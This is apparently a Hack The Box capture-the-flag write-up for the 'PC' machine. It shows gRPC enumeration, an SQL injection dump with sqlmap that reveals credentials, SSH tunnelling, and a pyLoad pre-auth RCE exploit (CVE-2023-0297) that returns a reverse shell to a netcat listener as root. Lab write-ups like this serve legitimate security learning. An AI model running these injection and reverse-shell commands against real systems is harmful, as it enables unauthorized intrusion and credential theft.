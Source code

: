 ```yaml
---
layout: default
title: PC
description: HTB - PC
---
```


## Enumeration

Nmap:
```
Nmap scan report for 10.10.11.214
Host is up (0.055s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
```
Ok, 2 ports open, one unknown. Let's search it up and find out what's what.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_01.png)

So gRPC. Good, we now have something we can look into.

Another search for gRPC pentesting, brings out “grpcui”. (https://github.com/fullstorydev/grpcui)

Let's clone and use it.
```
# /root/go/bin/grpcui -plaintext 10.10.11.214:50051
gRPC Web UI available at http://127.0.0.1:34621/
```
![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_02.png)

We'll now attempt to register a user, using the “RegisterUser” function, and check the output.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_03.png)

Great! Our account appears to have been created. Let's try logging in.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_04.png)

We now have a token, which we can input in this field, and use the “getInfo” function:

![token](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_05.png)
![token](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_06.png)

Response for the “getInfo” function:

![getinfo](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_07.png)

We didn't get much info, so let's try seeing the request in burp.

We'll start burp in proxy mode, capture the request, and send it to repeater to check if we can alter it in some way.

![burp](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_08.png)

I tried inputing different values (1, 0, etc) no output was given, I tried a php payload out of desperation, still didn't work.

I then figured out that the “id” parameter must be stored in a database. So I saved the request and threw it in sqlmap.

If you set the value of “id” to “*” ("id":"*"), sqlmap will know where to look.
```
sqlmap -r pcsql --dump-all --batch
```
BINGO!
```
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| [REDACTED] | sau      |
+------------------------+----------+

```
## Exploitation

And now let's ssh into the machine with the username “sau”.
```
ssh sau@10.10.11.214                                     
sau@10.10.11.214's password: 
Last login: Sat Sep 23 19:02:07 2023 from 10.10.11.214
bash-5.0$ 
bash-5.0$ ls
user.txt
bash-5.0$ cat user.txt
0c31efdfbc024f[REDACTED]
bash-5.0$ 
```

Let's snoop around in the usual places. /home, /opt, and run linpeas for good measure.
```
bash-5.0$ cd /opt
bash-5.0$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Jan 11  2023 .
drwxr-xr-x 21 root root 4096 Apr 27 15:23 ..
drwxr-xr-x  3 root root 4096 Sep 23 19:14 app
bash-5.0$ cd app
bash-5.0$ ls
__pycache__  app.py      app_pb2_grpc.py  sqlite.db
app.proto    app_pb2.py  middle.py
bash-5.0$ cd /home
bash-5.0$ ls
sau
bash-5.0$ cd sau
bash-5.0$ ls
user.txt
```

Linpeas found a local connection, like we had on “Internal” from THM.

Let's create an SSH tunnel like we did there, and try to access it.
```
ssh -N -L 5555:127.0.0.1:8000 sau@10.10.11.214
sau@10.10.11.214's password: 
```
And we are met by a pyLoad login page:

![pyload](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_09.png)

## Privilege Escalation

Previous credentials didn't work, so I started googling for possible exploits.

As luck would have it, I found a pre-auth RCE exploit -> CVE-2023-0297 

Let's download and launch it.

First, I'll set up a listener, and then run the exploit.

```
nc -lvnp 9002
Listening on 0.0.0.0 9002

python3 preauth.py -t 127.0.0.1:5555 -I 10.10.14.232 -P 9002 
[SUCCESS] Running reverse shell. Check your listener!

Connection received on 10.10.11.214 51996
bash: cannot set terminal process group (1059): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# 
root@pc:~/.pyload/data# id  
id
uid=0(root) gid=0(root) groups=0(root)

```

We have root! We can now read the “/root/root.txt” file, and submit our flags.

Good hunting o7

[Try it out yourself!](https://app.hackthebox.com/machines/PC) 

[back](./)

